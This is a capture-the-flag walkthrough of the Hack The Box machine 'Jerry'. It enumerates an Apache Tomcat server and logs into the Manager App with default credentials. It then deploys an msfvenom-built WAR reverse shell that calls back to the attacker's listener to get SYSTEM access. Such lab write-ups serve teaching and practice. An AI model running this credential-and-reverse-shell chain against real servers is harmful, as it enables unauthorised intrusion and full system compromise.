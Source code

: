 # Jerry without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -A -p- 10.10.10.95`**

* -T4 flag is to speed the scan up at a much faster pace.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports.

![Results of nmap scan](../.gitbook/assets/jerry-nmap.png)

#### Dissecting the results:

* We find that the only port that is open is port 8080. This port tends to be the second default choice to port 80, which is a webserver.
* We see the webserver version is Apache Tomcat/Coyote JSP engine 1.1.
* We also Apache Tomcat is version 7.0.88 which we can google more information on if we need to later.
* Finally, we see the OS scan believes it to most likely be a Windows machine.

### Navigating the Webserver

Since there isn't much to go off of, we navigate to the webserver to further enumerate. Type `10.10.10.95:8080` in the URL and we land on the following page:

![Home screen of Apache Tomcat](../.gitbook/assets/navigated-to-jerry-tomcat.png)

Your first instinct should be to click everything that can lead to a different webpage and see if we can find anywhere we can login, upload files, leaked credentials, etc. Our first few options should be to check out Server Status, Manager App, and Host Manager.

* According to Apache Tomcat's User Guide version 7 for each function
  * Server Status: [View the status of the server](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Server_Status).
  * Manager App: ["In many production environments, it is very useful to have the capability to deploy a new web application, or undeploy an existing one, without having to shut down and restart the entire container." followed by "Deploy a new web application from the uploaded contents of a WAR file."](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)
  * Host Manager: ["The Tomcat Host Manager application enables you to create, delete, and otherwise manage virtual hosts within Tomcat."](https://tomcat.apache.org/tomcat-7.0-doc/host-manager-howto.html)

With the list above, the Manager App appears to be an amazing option due to the ability to upload a WAR file, which can contain a reverse shell and ultimately give us access.

![](../.gitbook/assets/login-form.png)

We are prompted for login credentials, which we do not currently know so let's click 'Cancel' and we will be brought to the following page:

![](../.gitbook/assets/manager-login-cancelled.png)

We are brought to a 401 error page indicating we are not authorized to view Manager. We also see a sample username of **tomcat** and password of **s3cret** which are in fact some default credentials for tomcat. ****Let's try using these to login.

![](../.gitbook/assets/logging-into-manager-with-tomcat-s3cret-creds.png)

## Exploitation

Success! We were able to login. Now, we scroll to the bottom of the page to where we can see the 'Deploy' section. This is where we will upload a WAR file to gain a shell.

![](../.gitbook/assets/war-file-upload-location.png)

Next, we can google for a msfvenom payloads cheatsheet. I found mine at [https://netsec.ws/?p=331](https://netsec.ws/?p=331). 

![msfvenom war payload](../.gitbook/assets/msfvenom-war-payload.png)

We will need to edit this command for it to work. I will be editing mine to `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f war > shell.war` which will create a WAR file named shell.war and it will contain a reverse shell.

Next, we will set up a netcat listener to catch the shell.

`nc -nlvp 7777`

Browse for the WAR file and deploy it. It is now showing in Applications as /shell. 

![](../.gitbook/assets/war-file-deployed.png)

Once we click /shell, netcat will catch the shell as shown below.

![](../.gitbook/assets/reverse-shell.png)

Upon entering `whoami` we see we have system privileges and do not need to escalate from a lower level user. Grab the _**user.txt**_ and _**root.txt**_ flags using the command in the picture below.

![](../.gitbook/assets/whoami-and-flags-censored.png)





